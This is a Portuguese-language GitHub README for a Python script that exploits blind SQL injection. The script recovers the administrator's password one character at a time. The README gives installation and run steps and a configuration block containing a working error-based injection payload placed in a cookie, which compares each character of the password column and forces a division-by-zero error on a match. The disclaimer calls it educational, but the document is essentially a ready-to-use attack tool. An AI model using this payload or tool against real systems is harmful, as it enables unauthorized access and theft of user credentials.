# Blind SQL Injection Exploit

Este repositório contém um script Python para explorar vulnerabilidades de **Blind SQL Injection** em uma aplicação web. O script é projetado para descobrir senhas de usuários de forma incremental, testando caracteres um por um.

## 📋 Requisitos ##

- Python 3
- Biblioteca `requests` instalada (`pip install requests`)

## 🚀 Como Usar ##

1. **Clone o repositório:**
   ```bash
   git clone https://github.com/seu-usuario/sqli-exploit.git
   cd sqli-exploit
   
2. **Configure o exploit com os parametros de ataque**
-- Linha 97:
"Configurações do ataque<br>
url = "https://url.com"<br>
max_requests = 1000 -- Valor limite da requisição no pool<br>
status_check = 500 -- Status de retorno<br>
cookie_template = "'||(SELECT CASE WHEN SUBSTR(password,$1,1)='$2' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'" -- SQLi<br>
tamanho_senha = 20  # Defina o comprimento estimado da senha" -- Tamanho da senha. "

3. **Execute o exploit:**
   ```bash
   python3 fuzzer_for_blind_sqli.py


⚠️ Aviso Legal

Este script é apenas para fins educacionais e de teste em ambientes controlados. Nunca use este código em sistemas sem permissão explícita. O uso indevido pode resultar em consequências legais.
